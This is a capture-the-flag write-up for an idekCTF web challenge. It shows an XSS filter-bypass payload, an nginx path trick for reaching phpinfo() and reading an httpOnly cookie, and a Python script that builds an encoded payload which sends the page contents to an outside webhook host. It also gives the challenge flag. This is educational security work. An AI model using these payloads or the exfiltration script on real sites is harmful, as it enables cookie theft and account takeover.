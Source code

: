 ```yaml
---
ai_date: 2025-04-27 05:18:33
ai_summary: XSS bypass with HTTP-only cookie exploitation and SSRF through nginx rule
ai_tags:
  - xss
  - http-only
  - ssrf
created: 2024-08-17T18:40
points: 135
solves: 161
updated: 2025-07-14T09:46
---
```


## problem

- cookie is `httpOnly`, which means its not accessible from js.
- free XSS because the substring part does nothing.

I am able to circumvent the need for spaces and slashes using the following payload.

```html
<svg\x0conload="alert(1)">
```

And I can send web requests from http://idek-hello.chal.idek.team:1337, but there is no cookie.
## phpinfo

`phpinfo()` also displays cookies, and that includes `httpOnly` cookies as well.

That means we can send a request to it and get our flag.

```html
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.27.1</center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
```

However we only get a 403, that's weird.

My teammate was able to find the following bypass, tbh idk how it works.

`http://idek-hello.chal.idek.team:1337/info.php/.php`

I do know that this is SSRF using the nginx rule but nginx is weird.

## script

```python
import urllib.parse
payload = """
fetch('http://idek-hello.chal.idek.team:1337/info.php/.php').then(r => r.text()).then(r => {
    fetch("http://webhook.site",{mode:  'no-cors', method: 'POST', body: r})
});
"""


def string_to_hex(s):
    return ''.join(f'\\x{ord(c):02x}' for c in s)


payload = urllib.parse.quote_plus(f"<svg\x0conload=\"console.log(1);eval('{string_to_hex(payload)}')\">")
print('http://idek-hello.chal.idek.team:1337/?name='+payload)
```

```flag
idek{Ghazy_N3gm_Elbalad}
```